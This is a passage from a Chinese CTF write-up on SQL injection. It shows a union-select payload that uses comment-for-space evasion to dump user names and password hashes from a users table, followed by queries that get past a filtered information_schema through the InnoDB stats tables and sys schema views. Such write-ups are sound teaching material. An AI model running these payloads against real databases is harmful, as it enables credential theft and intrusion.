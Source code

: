 ```php
    }
}

$conn->close();
?>
......
```

列数据

```sql
'/**/union/**/select/**/1,(select/**/group_concat(name,0x7e,pass)/**/from/**/users),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208282322917.png)

看 wp 的时候发现自己又非预期了... 题目考察的是无列名注入

information_schema 被过滤了, 因为含有 or

参考文章

[https://blog.csdn.net/m0_49835838/article/details/109159839](https://blog.csdn.net/m0_49835838/article/details/109159839)

[https://johnfrod.top/%E5%AE%89%E5%85%A8/%E6%97%A0%E5%88%97%E5%90%8D%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87information_schema/](https://johnfrod.top/%E5%AE%89%E5%85%A8/%E6%97%A0%E5%88%97%E5%90%8D%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87information_schema/)

**information_schema 的绕过**

> InnoDB 数据表 (mysql > 5.6)
> 
> mysql.innodb_table_stats
> 
> mysql.innodb_index_stats

需要配置 `default-storage-engine=InnoDB`

不过默认条件下的存储引擎是 MyISAM, 大多数情况下无法利用

```sql
select group_concat(table_name) from mysql.innodb_table_stats where database_name=database();

select group_concat(table_name) from mysql.innodb_index_stats where database_name=database();
```

> sys 库 (mysql > 5.7)
> 
> sys.schema_auto_increment_columns
> 
> sys.schema_table_statistics_with_buffer
> 
> sys.x$schema_table_statistics
> 
> sys.x$ps_schema_table_statistics_io
> 
> ......
